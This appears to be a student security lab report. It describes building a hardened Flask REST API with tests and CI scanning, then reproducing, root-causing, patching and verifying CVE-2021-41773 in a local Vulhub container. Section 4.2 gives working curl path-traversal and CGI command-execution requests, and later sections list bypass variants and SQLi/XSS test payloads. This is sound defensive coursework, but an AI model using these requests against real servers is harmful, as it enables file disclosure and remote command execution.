





# Lab 1 — Secure REST API Development with CI/CD and Real CVE Analysis

> **Work no.**: 1
> **Title**: Secure REST API Development with CI/CD and Real CVE Vulnerability Analysis
> **Variant**: `<your variant number>`
> **Name**: `<Surname Name>`
> **HDU number**: `<student id>`
> **Date**: 2026-10-19
> **Repository**: `https://github.com/<OWNER>/<REPO>`
> **Pipeline**: `https://github.com/<OWNER>/<REPO>/actions`

---

## 1. Purpose

1. Build a backend REST API from scratch with the protections the OWASP Top 10
   asks for.
2. Put SAST and SCA into CI/CD so every push and pull request is checked
   automatically.
3. Reproduce a real CVE in a controlled Vulhub environment and close the loop
   **reproduce → root cause → fix → verify**.
4. Present security conclusions in an engineering form: reproducible commands,
   comparable screenshots, verifiable fixes.

---

## 2. Environment

| Item | Version / notes |
|---|---|
| OS | Windows 11 (26100); CI runs on ubuntu-latest |
| Python | 3.12.4 |
| Framework | Flask 3.1.3 |
| Database | SQLite 3 (WAL) |
| Auth | PyJWT 2.15.0 (HS256) + bcrypt 4.3.0 (cost 12) |
| Tests | pytest 8.4.2, 75 cases |
| SAST | Bandit 1.7.9+ |
| SCA | pip-audit 2.7.3+ |
| Containers | Docker Desktop + Docker Compose v2 |
| Target range | Vulhub `httpd/CVE-2021-41773` |

---

## 3. Part 1 — the secure REST API

### 3.1 Stack and initialisation

**Python + Flask + SQLite**: few dependencies, small enough to be reviewed in
minutes; the best tooling support for `bandit` / `pip-audit`; SQLite removes
infrastructure work so the effort goes into the security code.

```bash
python -m venv .venv && .venv\Scripts\activate
pip install -r requirements-dev.txt
git init && git add . && git commit -m "feat: secure Flask API skeleton"
git remote add origin https://github.com/<OWNER>/<REPO>.git
git push -u origin main
```

```
app/
├── __init__.py     app factory, hardening headers
├── config.py       env-driven config; production refuses to boot without SECRET_KEY
├── db.py           schema + every parameterised query
├── security.py     bcrypt / JWT / validation / output escaping / rate limiter
├── errors.py       uniform JSON errors, no stack traces
├── auth.py         POST /auth/login
└── api.py          GET /api/data, POST /api/posts, GET /api/me
tests/              75 tests incl. SQLi / XSS regressions
cve/                vulnerable env, exploit, patch, verification
.github/workflows/ci.yml
```

### 3.2 API design

| # | Method | Path | Auth | Purpose |
|---|---|---|---|---|
| 1 | POST | `/auth/login` | — | Accepts `login` / `password`, returns a JWT |
| 2 | GET | `/api/data` | Bearer | Post feed (`limit`, `offset`, `q`) |
| 3 | POST | `/api/posts` | Bearer | **Own method**: create a post |
| + | GET | `/api/me` | Bearer | Identity carried by the token |
| + | GET | `/health` | — | Liveness |

```bash
curl -s -X POST http://127.0.0.1:5000/auth/login \
     -H 'Content-Type: application/json' \
     -d '{"username":"alice","password":"Passw0rd!Alice"}'
```

```json
{
  "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "token_type": "Bearer",
  "expires_in": 900,
  "user": {"id": 1, "username": "alice", "role": "admin"}
}
```

Without a token:

```http
HTTP/1.1 401 UNAUTHORIZED
WWW-Authenticate: Bearer error="missing_token"

{"error": {"code": "unauthorized", "message": "Missing or malformed Authorization header (expected 'Bearer <token>')."}}
```

**Measured walkthrough** (`scripts/demo.ps1`, all PASS):

| Step | Request | Result |
|---|---|---|
| 1 | `GET /health` | 200 |
| 2 | `POST /auth/login` (alice) | 200, 900-second JWT |
| 3 | `GET /api/data` without token | **401** |
| 4 | `GET /api/data` with a forged token | **401** |
| 5 | `GET /api/data` with the real token | 200, returns the feed (`limit` honoured) |
| 6 | `POST /api/posts` | 201 |
| 7 | login with `alice' OR '1'='1` | **401** |
| 8 | search with `' OR 1=1 --` | 200, `total=0` (literal) |
| 9 | stored XSS `<script>alert('XSS')</script>` | 201, returned as `&lt;script&gt;…` |

### 3.3 Security measures

#### 3.3.1 SQL injection — parameter binding everywhere

`app/db.py` is the only module that touches SQLite and every statement binds its
values:

```python
row = get_db().execute(
    "SELECT id, username, password_hash, role FROM users WHERE username = ?",
    (username,),          # the username is data, never SQL
).fetchone()
```

The search filter is bound as well, so `' OR 1=1 --` matches as a literal
substring:

```python
"WHERE p.title LIKE ? OR p.body LIKE ?", (f"%{search}%", f"%{search}%")
```

> The concatenation happens *inside a parameter value*, not inside the SQL
> syntax. The driver escapes it, so quotes cannot change the statement.

#### 3.3.2 XSS — encode on output, constrain on input

Data is stored raw and HTML-escaped on the way out
(`app/security.py::escape_value`, recursive over dicts/lists):

```python
"<script>alert('XSS')</script>"
  ->  "&lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;"
```

Three supporting controls: `application/json` plus
`X-Content-Type-Options: nosniff` (a browser will not parse it as HTML),
`Content-Security-Policy: default-src 'none'; frame-ancestors 'none'`, and input
validation that rejects control characters and enforces length limits.

Validation also respects each field's line semantics: a **title** is single
line and rejects `\n`, `\r` and tabs, while a **body** may span lines but still
rejects every other control character — two distinct patterns
(`NO_CONTROL_OR_NEWLINE_RE` vs `CONTROL_CHARS_RE`). This came out of writing
the tests and then re-reading the code: both branches originally used the same
pattern, so `allow_newlines=False` did nothing and a title could still contain
a newline. The new test caught it.

#### 3.3.3 Authentication and sessions

| Requirement | Implementation |
|---|---|
| No plaintext passwords | bcrypt cost 12, per-password salt |
| bcrypt's 72-byte limit | rejected before hashing instead of silently truncated |
| Token issuance | HS256 JWT with `sub/iss/aud/iat/nbf/exp/jti`, 15-minute TTL |
| Verified on every protected endpoint | `@jwt_required` decorator |
| Algorithm pinning | `algorithms=["HS256"]` — blocks `alg:none` and RS→HS confusion |
| Claim validation | issuer, audience, required claims, expiry with 5 s leeway |
| Revocation | subject is re-read from the DB, so a deleted user's token dies |
| No user enumeration | identical status/body for unknown user and wrong password, with a dummy bcrypt check to flatten timing |
| Brute force | 5 failures per (IP, username) per 5 min → `429` + `Retry-After` |

```python
@wraps(view)
def wrapper(*args, **kwargs):
    claims = decode_access_token(bearer_token_from_request())   # signature + claims
    user = find_user_by_id(int(claims["sub"]))
    if user is None:
        raise AuthError("Account no longer exists.")
    g.current_user = user
    return view(*args, **kwargs)
```

#### 3.3.4 Further hardening

Uniform JSON error bodies (no stack trace / SQL / paths), `MAX_CONTENT_LENGTH`
64 KiB, `Cache-Control: no-store`, `X-Frame-Options: DENY`, the dev server binds
`127.0.0.1` only, and production refuses to start without `SECRET_KEY`.

### 3.4 Tests

```bash
pytest --cov=app --cov-report=term-missing
```

```
tests/test_auth.py        20 passed
tests/test_api.py         20 passed
tests/test_sqli_xss.py    24 passed
======================== 75 passed ========================
```

| Test | Assertion |
|---|---|
| `test_sqli_in_login_never_authenticates[7 payloads]` | 401 and no `access_token` in the body |
| `test_sqli_in_search_is_treated_as_literal_text` | `total=0`, schema intact |
| `test_sqli_error_messages_are_not_leaked` | no `sqlite` / `syntax error` / `select ` in the response |
| `test_stored_xss_is_escaped_on_output` | raw `<script>` absent, `&lt;script&gt;` present |
| `test_reflected_xss_is_escaped[5 payloads]` | no `<script` / ` ⬜ **Pending screenshots**: `docs/screenshots/ci-green.png`, `bandit.png`,
> `pip-audit.png` (take them after pushing to your own repository; drop the
> files into `docs/screenshots/` and rebuild the HTML to embed them).







### 3.6 Known limitations (scope statement)

Saying what this implementation deliberately does **not** do is more credible
than claiming it is "secure". The trade-offs:

| Limitation | Consequence | Production answer |
|---|---|---|
| The rate limiter is an in-process dict | With N workers each keeps its own counter, so the effective limit is N× higher | Redis counter, or rate limit at the gateway / WAF |
| Client identity comes from `X-Forwarded-For` | Behind no trusted proxy that header is spoofable, bypassing the limiter | Enable it only behind a trusted proxy, else use `remote_addr` |
| A JWT cannot be revoked before it expires | A stolen token works for up to 15 minutes (deleting the account does kill it) | Short TTL + refresh token + a `jti` denylist |
| XSS escaping happens in the API layer | A client that escapes again would double-encode; the correct place is the render layer | API guarantees JSON types only; escape at render time + strict CSP |
| No TLS | Lab-local; tokens and passwords travel in clear text | HTTPS + HSTS in production |
| SQLite has a single writer | Concurrent writes queue | PostgreSQL |
| Dependencies are pinned by version, not by hash | Supply-chain tampering is still possible | `pip install --require-hashes` + a lock file |
| Logs record only the username | No structured audit trail or alerting | JSON logs + central audit + alert rules |

None of these affect the lab objectives (3 endpoints, 4 controls, CI, the CVE
loop), but they are worth stating out loud in a viva.

---

## 4. Part 2 — CVE-2021-41773

### 4.1 Selection

**CVE-2021-41773 — Apache HTTP Server 2.4.49 path traversal.** Chosen because
the root cause sits in **one function** (`ap_normalize_path()`), it is
reproduced with **one `curl`**, the fix is a **version bump**, and it chains a
canonicalisation bug, an over-permissive `Require all granted` and enabled CGI —
a good case for a defence-in-depth discussion.

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/httpd/CVE-2021-41773 && docker compose up -d
# or the equivalent environment shipped in this repo:
cd cve && docker compose up -d --build
```

The service listens on `http://127.0.0.1:8080` and answers `It works!`.

### 4.2 Reproduction

```bash
# 0) the /icons/ alias must exist (provided by httpd-autoindex.conf)
curl -s -o /dev/null -w '%{http_code}\n' http://127.0.0.1:8080/icons/

# 1) traverses out of the document root
#    %2e = URL-encoded '.'; --path-as-is stops curl from normalising for us
curl --path-as-is \
  'http://127.0.0.1:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd'

# 2) with mod_cgi enabled the same trick reaches /bin/sh
curl --path-as-is --data 'echo;id' \
  'http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

Expected on the vulnerable build:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

> `--path-as-is` matters: without it curl collapses `/icons/.%2e/../` on the
> client and the request never leaves the document root.

> ⬜ **Pending screenshot**: `docs/screenshots/cve-exploit.png`



### 4.3 Root cause

**Defect location**: `ap_normalize_path()` in `server/request.c`, the
normalisation function rewritten in 2.4.49.

**What goes wrong**: in a single scan the function both

1. **decodes** percent-encoded octets (`%2e` → `.`), and
2. **decides** whether the segment is a dot-segment to be collapsed.

The order is wrong: the decision is taken on characters that are still encoded.
A segment written

```
.%2e      # not "..", so it is not recognised as traversal
```

passes normalisation untouched and only becomes a real `..` in the later decode.
The path handed to the core mapper still contains a live `..`.

`ap_core_translate()` then maps it through `Alias /icons/ ...` without checking
that the result is still inside the aliased directory. `..` does what `..`
always does.

So this is not "validation was forgotten" — validation exists, but the validator
and the decoder disagree about what the string means (**decoding/normalisation
order bug**, a canonicalisation error and the classic CWE-22 shape: the name
that is checked is not the name that is opened).

**Amplification**:

| Configuration | Effect |
|---|---|
| `<Directory /> Require all granted` | the escaped path is *authorised*: `/etc/passwd`, application keys, cloud metadata become readable |
| `LoadModule cgi_module` | the traversal reaches `/bin/sh` under `/cgi-bin/` → command execution as `daemon` |

The same code defect is 7.5 (disclosure) in one deployment and 9.8 (RCE) in
another: **impact is configuration-dependent, the defect is not.**

**Why the first patch was insufficient**: 2.4.50 blacklisted the literal `%2e`.
Because the filter ran on the encoded form, double encoding bypassed it —
`%%32%65` decodes once to `%2e` and again to `.` (CVE-2021-42013, CVSS 9.8).
2.4.51 dropped the blacklist: decode fully → collapse dot segments on the
decoded string → reject any path that would climb above the root.

> **Blacklisting encoded input is a losing game: canonicalise first, then
> validate, then use.**

### 4.4 The fix

`cve/Dockerfile.fixed` changes exactly one line:

```diff
-FROM vulhub/httpd:2.4.49
+FROM httpd:2.4.51
```

Every configuration line (CGI enabled, `Require all granted`, autoindex) stays
identical, so the only variable is the patched normalisation code. If the attack
stops working, it is because of the code fix and not because a setting was
turned off.

```bash
docker compose down
docker compose -f docker-compose.fixed.yml up -d --build
```

### 4.5 Verification (with regression)

```bash
powershell -ExecutionPolicy Bypass -File .\cve\verify-fix.ps1
```

The script replays the original payload **and the whole bypass family** (double
encoding, `%2f`, `/.%2e/`) and performs a regression check:

```
[PASS] home page still returns 200                     <- functionality intact
[PASS] traversal answered with 404/403
[PASS] no /etc/passwd content in the body
[PASS] no uid= in the response
[PASS] no leak for /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/hostname
[PASS] no leak for /cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh
[PASS] no leak for /.%2e/.%2e/.%2e/.%2e/etc/passwd
[PASS] no leak for /icons/..%2f..%2f..%2f..%2fetc%2fpasswd
RESULT: fix verified -- all checks passed.
```

Fixing only the exact string from the advisory would be a blacklist fix, and
2.4.50 is the cautionary tale. Hence the variants.

> ⬜ **Pending screenshot**: `docs/screenshots/cve-fixed.png`



### 4.6 Defence in depth

The version bump is the real fix; these only reduce blast radius:

```apache
<Directory />
    AllowOverride none
    Require all denied      # do not hand the whole filesystem to the server
</Directory>
```

```yaml
    read_only: true
    user: "1000:1000"
    security_opt: ["no-new-privileges:true"]
    cap_drop: ["ALL"]
```

Plus: enable CGI only where needed, restrict container egress (blocks metadata
SSRF), treat WAF rules as a tourniquet rather than a cure, and track CISA KEV so
patches land in time.

---

## 5. Conclusion

1. A working API and a secure API differ not in features but in **one decision
   at every trust boundary**: binding, encoding, signature verification, and
   error-message hygiene.
2. Security tests must be regressions: 24 of the 75 cases exist to attack the
   application, so breaking a control turns CI red immediately.
3. A CVE reproduction is valuable because it builds a **causal chain**: one
   `%2e`, one ordering bug, one `404` versus one `root:x:0:0`. Only with that
   chain can you write a patch and a detection rule.
4. A fix must be verified with **the same configuration and only the version
   changed**, plus a regression test — otherwise you cannot tell "fixed" from
   "switched off".

### Mapping to the grading rubric

| Criterion | Points | Where |
|---|---|---|
| API functionality | 2 | §3.2 (3 main + 2 auxiliary endpoints), demo all PASS |
| SQLi protection | 0.5 | §3.3.1 + 7 injection cases |
| XSS protection | 0.5 | §3.3.2 + 5 XSS payload cases |
| Authentication (JWT + hashing) | 1 | §3.3.3 + 19 auth cases |
| CI/CD with SAST/SCA | 2 | §3.5, Bandit + pip-audit + screenshots |
| Vulnerable env + CVE reproduction | 2 | §4.1–4.2 |
| Depth of root cause | 1 | §4.3 |
| Fix correctness and verification | 1 | §4.4–4.5 |

---

## 6. Control questions

**1. Why is bcrypt preferable to SHA-256 for password hashing?**
SHA-256 is designed to be fast; a modern GPU computes tens of billions of
hashes per second, so a leaked table falls quickly. bcrypt is designed to be
slow: a tunable cost factor (cost 12 = 4096 rounds), a per-password random salt
that defeats rainbow tables, and a Blowfish key schedule that costs memory as
well as time. The cost can be raised as hardware improves — SHA-256 has no such
knob.

**2. SAST versus DAST?**
SAST is white-box: it analyses source or bytecode without running the program,
finds data-flow problems early in the pipeline and points at a line, but produces
false positives and cannot see runtime configuration or third-party components.
DAST is black-box: it sends HTTP requests to a running system like an attacker,
finds genuinely exploitable runtime issues, but cannot name the code location and
cannot reach un-routed code. This lab uses SAST (Bandit + pip-audit) for code
and dependencies; DAST is the tool of Lab 2 (ZAP).

**3. How does a JWT work, what does it contain, how is it verified?**
Three base64url parts: `header.payload.signature`. The payload holds claims
(`sub`, `exp`, `iat`, `iss`, `aud`, roles). The payload is **encoded, not
encrypted** — anyone holding the token can read it, so it must not carry
secrets. The server recomputes the signature over `header.payload` with its key
(HMAC-SHA256 for HS256; sign-with-private/verify-with-public for RS256) and
checks `iss`, `aud`, `exp`, `nbf` and the presence of required claims. The
signature prevents forgery and `exp` limits the value of a stolen token. Pin the
algorithm allow-list, or `alg:none` and RS→HS confusion become possible.

**4. What risk comes from not auditing third-party dependencies?**
More than 80% of a modern application is third-party code, so an attacker does
not need to touch yours: one vulnerable transitive dependency (Log4Shell,
Struts2, this httpd) is enough. Disclosure-to-exploitation windows are often
days. SCA provides a visible SBOM, alerts on known CVEs in CI, and turns "should
we upgrade?" into a process instead of memory.

**5. What do Docker and Vulhub offer over installing vulnerable software locally?**
Isolation and disposability — a compromise only reaches a container that can be
recreated from a file; exact, reproducible versions (no "it does not reproduce
because my box runs 2.4.51"); vulnerable and fixed builds side by side with only
a tag changed; configuration as code that a reviewer can inspect; and an
identical environment for every student, so grading is reproducible.

**6. Vulnerability versus exploit — which did you reproduce?**
A vulnerability is the flaw itself (the ordering bug in `ap_normalize_path()`);
an exploit is the concrete technique that weaponises it (the
`curl --path-as-is '.../.%2e/%2e%2e/...'` request). This lab reproduced the
vulnerability *by running a public exploit* against a deliberately vulnerable
build, then analysed the root cause, patched it, and proved the exploit no longer
works.

**7. Why is regression testing critical after a patch?**
Patches usually touch shared code paths (here, URI normalisation) and can break
legitimate requests: 2.4.50 is the textbook case of a fix that closed one hole
and opened another. Regression testing answers two questions — was the fix
*precise* (blocks the malicious, keeps the legitimate) and did it *introduce*
new problems (availability, performance, compatibility). A fix without a
regression test may simply be a feature switched off.

**8. Why does CVE knowledge and reproduction matter for a pentester or a SOC analyst?**
For a pentester, reproduction is how impact is proven, and the KEV list is the
fastest triage of an estate. For a SOC analyst, knowing what the request looks
like (`/.%2e/`, double encoding, abnormal request targets) is what makes
detection rules and log review possible. More fundamentally, CVEs teach
**patterns** — canonicalisation order, deserialisation, injection, broken access
control — that reappear across languages and frameworks.

---

## 7. Submission checklist

| # | Requirement | Status / location |
|---|---|---|
| 1 | Public git repository link | `https://github.com/<OWNER>/<REPO>` (pending push) |
| 2 | README.md with project description, security measures, SAST/SCA screenshots, CVE, reproduction, root cause, fix, proof | `README.md` / `README.zh-CN.md` |
| 3 | Link to the last successful pipeline | `https://github.com/<OWNER>/<REPO>/actions` |
| 4 | Folder with the fixes | `cve/Dockerfile.fixed`, `cve/docker-compose.fixed.yml` |
| 5 | This report | `docs/report_en.md` (EN), `docs/report_zh.md` (ZH) |

### Still to do

- [ ] `docs/screenshots/ci-green.png`
- [ ] `docs/screenshots/bandit.png`
- [ ] `docs/screenshots/pip-audit.png`
- [ ] `docs/screenshots/cve-exploit.png`
- [ ] `docs/screenshots/cve-fixed.png`
- [ ] Fill in the title page (work no., title, variant, name, HDU number)
